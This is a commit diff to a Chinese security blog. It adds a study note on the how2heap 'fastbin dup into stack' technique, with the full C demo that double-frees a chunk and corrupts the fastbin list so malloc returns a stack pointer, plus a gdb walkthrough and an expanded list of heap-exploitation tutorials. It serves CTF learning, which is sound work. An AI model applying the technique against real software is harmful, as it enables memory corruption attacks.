

Before and after one commit to Trietptm-on-Coding-Algorithms/vancir.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 599 px of the page, without its empty margins (274-1005 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed lines change nothing that is shown.

Commit message:
added fastbin_dup_into_stack

````diff
--- a/_posts/2017-08-05-how2heap-02-fastbin-dup.md
+++ b/_posts/2017-08-05-how2heap-02-fastbin-dup.md
@@ -150,3 +150,5 @@ fast bin 0 @ 0x602020
 那么我们可以得到结论
 
 > 对于fastbins，我们通过double free泄露出一个堆块的指针
+
+![fastbin-dup](/images/how2heap/fastbin_dup.png)
--- /dev/null
+++ b/_posts/2017-08-06-how2heap-03-fastbin-dup-into-stack.md
@@ -0,0 +1,108 @@
+---
+title: how2heap-03 fastbin dup into stack实践笔记
+time: 2017-08-06
+tags: [CTF, pwn, heap]
+layout: post
+categories: posts
+---
+
+> 本文是对shellphish的[how2heap](https://github.com/shellphish/how2heap)系列堆漏洞课程的实践笔记
+
+# 示例源码
+
+``` c
+#include <stdio.h>
+#include <stdlib.h>
+
+int main()
+{
+	printf("This file extends on fastbin_dup.c by tricking malloc into\n"
+	       "returning a pointer to a controlled location (in this case, the stack).\n");
+
+	unsigned long long stack_var;
+
+	printf("The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);
+  /* [1] */
+	printf("Allocating 3 buffers.\n");
+	int *a = malloc(8);
+	int *b = malloc(8);
+	int *c = malloc(8);
+
+	printf("1st malloc(8): %p\n", a);
+	printf("2nd malloc(8): %p\n", b);
+	printf("3rd malloc(8): %p\n", c);
+
+	printf("Freeing the first one...\n");
+	free(a);
+
+	printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
+	// free(a);
+
+	printf("So, instead, we'll free %p.\n", b);
+	free(b);
+
+	printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
+	free(a);
+
+	printf("Now the free list has [ %p, %p, %p ]. "
+		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
+
+	unsigned long long *d = malloc(8);
+
+	printf("1st malloc(8): %p\n", d);
+	printf("2nd malloc(8): %p\n", malloc(8));
+  /* [2] */
+	printf("Now the free list has [ %p ].\n", a);
+	printf("Now, we have access to %p while it remains at the head of the free list.\n"
+		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
+		"so that malloc will think there is a free chunk there and agree to\n"
+		"return a pointer to it.\n", a);
+	stack_var = 0x20;
+
+	printf("Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
+	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
+  /* [3] */
+	printf("3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
+	printf("4th malloc(8): %p\n", malloc(8));
+  /* [4] */
+}
+```
+
+本节示例的漏洞程序可以从此处下载： [fastbin_dup_into_stack](/files/how2heap/fastbin_dup_into_stack)
+
+# 漏洞分析
+
+这节是上节fastbin dup的扩展，目的是获得一个指向任意地址的指针，在这里我们是获得一个栈的指针
+
+我们用gdb挂起程序，运行到`[1]`位置，此时我们定义了一个指针，指针的地址为`0x7fffffffdb68`，而我们希望`malloc()`返回的地址为`0x7fffffffdb70`
+
+``` bash
+The address we want malloc() to return is 0x7fffffffdb70.
+```
+
+继续向下，和`fastbin-dup`类似，因此具体过程不再描述，这里直接向下运行到`[2]`处
+
+在`[2]`位置，程序新定义了一个指针`d`，指向新分配的内存地址，也就是chunk `a`的地址。往下，我们的目的是在栈中写入一个`伪造的free chunk的大小`，在这里我们是`stack_var`并设定为`0x20`
+
+随后在`[3]`位置`*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));`，这意思是将point `d`指向`stack_var`的上一个位置
+
+``` bash
+gdb-peda$ freebins
+fast bin 0 @ 0x602000
+	free chunk @ 0x602000 - size 0x20
+	free chunk @ 0x7fffffffdb60 - size 0x20
+	free chunk @ 0x602010 - size 0x0
+gdb-peda$ fastbins
+fastbins
+[ fb 0 ] 0x7ffff7dd3768  -> [ 0x602000 ] (32)
+                            [ 0x7fffffffdb60 ] (32)
+                            [ 0x602010 ] (32)
+```
+
+可以看见，实际上，通过修改了`fastbins`上的数据，伪造了一个新的`bin`，其中这个伪造`bin`的大小为`0x20`，地址为`0x7fffffffdb60`，也就是`*d = &stack_var - sizeof(d) = 0x7fffffffdb68 - 0x08 = 0x7fffffffdb60`,从而向`fastbins`添加了一个伪造的bin，即`[ 0x602000 ] -> [0x7fffffffdb60]`，这时再`malloc(8)`，那么申请两次，便可以获得一个栈上的地址，这个栈上的地址为`8+(char *)&stack_var`，即`[0x7fffffffdb70]`
+
+即得到结论
+
+> 通过fastbins的2free并覆盖fastbins结构，我们可以获得一个指向任意地址(比如栈)的指针
+
+![fastbin_dup_into_stack](/images/how2heap/fastbin_dup_into_stack.png)
--- /dev/null
+++ b/_posts/2017-08-06-how2heap-04-unsafe-unlink.md
@@ -0,0 +1,7 @@
+---
+title: how2heap-04 unsafe unlink实践笔记
+time: 2017-08-06
+tags: [CTF, pwn, heap]
+layout: post
+categories: posts
+---
--- a/tutorials.html
+++ b/tutorials.html
@@ -28,6 +28,16 @@ layout: default
   <ol type="1">
     <li><a href="/posts/how2heap-01-first-fit">how2heap-01 first fit实践笔记</a></li>
     <li><a href="/posts/how2heap-02-fastbin-dup">how2heap-02 fastbin dup实践笔记</a></li>
+    <li><a href="/posts/how2heap-03-fastbin-dup-into-stack">how2heap-03 fastbin dup into stack实践笔记</a></li>
+    <li><a href="/posts/how2heap-04-unsafe-unlink">how2heap-04 unsafe unlink实践笔记</a></li>
+    <li><a href="/posts/how2heap-05-house-of-spirit">how2heap-05 house of spirit实践笔记</a></li>
+    <li><a href="/posts/how2heap-06-poison-null-byte">how2heap-06 poison null byte实践笔记</a></li>
+    <li><a href="/posts/how2heap-07-house-of-lore">how2heap-07 house of lore实践笔记</a></li>
+    <li><a href="/posts/how2heap-08-overlapping-chunks">how2heap-08 overlapping chunks实践笔记</a></li>
+    <li><a href="/posts/how2heap-09-overlapping-chunks-2">how2heap-09 overlapping chunks 2实践笔记</a></li>
+    <li><a href="/posts/how2heap-10-house-of-force">how2heap-10 house of force实践笔记</a></li>
+    <li><a href="/posts/how2heap-11-unsorted-bin-attack">how2heap-11 unsorted bin attack实践笔记</a></li>
+    <li><a href="/posts/how2heap-12-house-of-einherjar">how2heap-12 house of einherjar实践笔记</a></li>
   </ol>
 
 </article>
````
Also changed, not shown: images/how2heap/fastbin_dup_into_stack.png (added).
